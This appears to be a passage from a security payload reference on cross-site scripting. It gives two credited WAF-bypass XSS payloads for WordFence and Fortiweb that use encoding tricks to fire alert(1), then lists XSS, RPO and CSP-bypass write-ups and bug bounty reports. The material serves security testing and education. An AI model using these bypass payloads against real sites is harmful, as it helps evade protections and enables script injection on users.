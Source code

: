 ### WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th september 2018

```javascript
<a href=javas&#99;ript:alert(1)>
```

### Fortiweb WAF Bypass by [@rezaduty](https://twitter.com/rezaduty) - 9th July 2019

```javascript
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```

## References

- [Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
- tbm
- [(Relative Path Overwrite) RPO XSS - Infinite Security](http://infinite8security.blogspot.com/2016/02/welcome-readers-as-i-promised-this-post.html)
- [RPO TheSpanner](http://www.thespanner.co.uk/2014/03/21/rpo/)
- [RPO Gadget - innerthmtl](http://blog.innerht.ml/rpo-gadgets/)
- [Relative Path Overwrite - Detectify](http://support.detectify.com/customer/portal/articles/2088351-relative-path-overwrite)
- [XSS ghettoBypass - d3adend](http://d3adend.org/xss/ghettoBypass)
- [XSS without HTML: Client-Side Template Injection with AngularJS](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html)
- [XSSING WEB PART - 2 - Rakesh Mane](http://blog.rakeshmane.com/2017/08/xssing-web-part-2.html)
- [Making an XSS triggered by CSP bypass on Twitter. @tbmnull](https://medium.com/@tbmnull/making-an-xss-triggered-by-csp-bypass-on-twitter-561f107be3e5)
- [Ways to alert(document.domain) - @tomnomnom](https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309)
- [D1T1 - Michele Spagnuolo and Lukas Wilschelbaum - So We Broke All CSPs](https://conference.hitb.org/hitbsecconf2017ams/materials/D1T1%20-%20Michele%20Spagnuolo%20and%20Lukas%20Wilschelbaum%20-%20So%20We%20Broke%20All%20CSPS.pdf)
- [Sleeping stored Google XSS Awakens a \$5000 Bounty](https://blog.it-securityguard.com/bugbounty-sleeping-stored-google-xss-awakens-a-5000-bounty/)
  by Patrik Fehrenbach
- [RPO that lead to information leakage in Google](http://blog.innerht.ml/rpo-gadgets/)
  by filedescriptor
- [God-like XSS, Log-in, Log-out, Log-in](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/)
  in Uber by Jack Whitton
- [Three Stored XSS in Facebook](http://www.breaksec.com/?p=6129) by
  Nirgoldshlager
- [Using a Braun Shaver to Bypass XSS Audit and WAF](https://blog.bugcrowd.com/guest-blog-using-a-braun-shaver-to-bypass-xss-audit-and-waf-by-frans-rosen-detectify)
  by Frans Rosen
- [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
  by Jack Whitton
- [Stored XSS in \*.ebay.com](https://whitton.io/archive/persistent-xss-on-myworld-ebay-com/)
  by Jack Whitton
- [Complicated, Best Report of Google XSS](https://sites.google.com/site/bughunteruniversity/best-reports/account-recovery-xss)
  by Ramzes
- [Tricky Html Injection and Possible XSS in sms-be-vip.twitter.com](https://hackerone.com/reports/150179)
  by secgeek
- [Command Injection in Google Console](http://www.pranav-venkat.com/2016/03/command-injection-which-got-me-6000.html)
  by Venkat S